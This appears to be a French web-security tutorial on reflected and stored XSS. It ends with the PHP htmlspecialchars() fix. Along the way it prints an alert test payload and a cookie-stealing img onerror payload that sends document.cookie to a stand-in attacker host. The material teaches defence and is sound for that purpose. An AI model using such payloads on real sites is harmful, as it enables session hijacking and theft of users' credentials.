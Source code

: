 ﻿# La faille XSS
**Explications**
XSS (plus officiellement appelée Cross-Site Scripting) est une faille permettant l'injection de code HTML ou JavaScript dans des variables mal protégées. Il existe en fait deux types de XSS :

## Le XSS réfléchi (non permanent)
Cette faille est la plus simple des deux. Elle est appelée non permanente car elle n'est pas enregistrée dans un fichier ou dans une base de données. Elle est donc éphémère. L'exemple le plus couramment utilisé pour illustrer cette faille est la connexion à un espace membre. Bon on simplifie au maximum, donc on ne met pas de champ password. Imaginons la page suivante :

````html
<html>
    <form method="post" action="connexion.php">
        <input type="texte" name="pseudo" />
        <input type="submit" value="Connexion" />
    </form>
</html>
````
Qui envoie ses paramètres à la page connexion.php :

La page de connexion se contente de dire bonjour suivi du pseudo de l'utilisateur. Jusque-là tout est normal. Sauf si l'utilisateur a envie de s'amuser un petit peu, et décide de trouver un pseudo plus "fun". Par exemple, que se passerait-il s'il décidait d'entrer <strong>Vincent</strong> dans la zone de texte et de valider ? Eh bien il obtiendrait :



Bonjour **Vincent!**

 

Et là on réalise que l'insertion de code n'a plus de limite. On pourrait rentrer à peu près n'importe quoi. Une alerte JS par exemple :

````js
<script>alert('Il y a une faille XSS')</script>
````

## Le XSS stocké (permanent)

La faille permanente est la faille XSS la plus sérieuse car le script est sauvegardé dans un fichier ou une base de données. Il sera donc affiché à chaque ouverture du site. On prendra ici l'exemple d'un livre d'or dans lequel les utilisateurs peuvent poster un commentaire. Eh bien le problème est le même que le précédent ! Si l'utilisateur veut afficher son texte en rouge, il n'aura qu'à écrire :

````html
<p style="color:red">Ceci est un commentaire</p>
````

**Oui bon d'accord, l'utilisateur en face peut afficher du texte en couleur. Mais en quoi est-ce dangereux pour mon site ?**

C'est vrai qu'afficher du texte en couleur c'est bien beau, mais ça ne va rien apporter au hacker. Mais attention, cette faille peut s'avérer beaucoup plus dangereuse que ça ! Comme vous le savez sûrement, de nombreux sites stockent les pseudo/password de leurs utilisateurs dans des cookies (parfois les pseudo/mdp sont même en clair dans le cookie). Utilisée correctement, cette faille peut par exemple permettre au pirate de récupérer les valeurs de ces fameux cookies. Voilà comment il va procéder. Il va tout d'abord insérer un code frauduleux sur une page de votre site où il peut écrire (livre d'or par exemple) ! Il va ensuite vous envoyer un message et vous inviter à aller voir cette fameuse page. Vous, sans vous méfier, cliquez et là hop vous êtes redirigé et le pirate a récupéré votre cookie, et donc vos identifiants d'administrateur du site.

Le code qu'il aura placé sur la page du livre d'or pourra par exemple ressembler à ça :
````html
<img src="azerty.jpg" onerror="window.location='http://www.site_du_hacker.com/recuperation_cookie.php?cookie='+document.cookie;" hidden>
````
Ce script HTML/JavaScript redirige l'utilisateur s'il y a une erreur lors du chargement de l'image. Tout est bien sûr calculé pour qu'il y ait une erreur (ici, le chemin de l'image n'existe pas), vous êtes alors redirigé vers la page de récuperation_cookie.php, et tout ça en communiquant le contenu de votre cookie dans l'URL. Sur la page recuperation_cookie.php, le pirate n'aura qu'à récupérer la variable cookie grâce à un GET et la stocker dans un fichier. À partir de ce moment-là il détient vos informations personnelles. Cela peut s'avérer très embêtant, surtout si vous êtes l'administrateur du site web. 
![enter image description here](http://img.prntscr.com/img?url=http://i.imgur.com/vF8z3XF.png)

Voilà, même si vous n'avez pas tout saisi, ce n'est pas grave. Ce qui importe, c'est que vous réalisiez le risque que vous courrez à laisser une faille XSS sur votre site.

## Comment s'en protéger
La solution la plus adaptée contre cette faille est d'utiliser la fonction htmlspecialchars() . Cette fonction permet de filtrer les symboles du type <, & ou encore ", en les remplaçant par leur équivalent en HTML. Par exemple :

Le symbole & devient &amp;

Le symbole " devient &quot;

Le symbole ' devient &#39;

Reprenons le code du début et modifions tout cela :
````php
<?php

    $pseudo = htmlspecialchars($_POST['pseudo']);
    echo "Bonjour ".$pseudo." !"

?>
````
Maintenant réessayons d'envoyer <strong>vincent</strong> et ... Tadaaaaaam ! On obtient exactement ce que l'on voulait, du texte brut..
Bonjour <strong>Vincent</strong> !


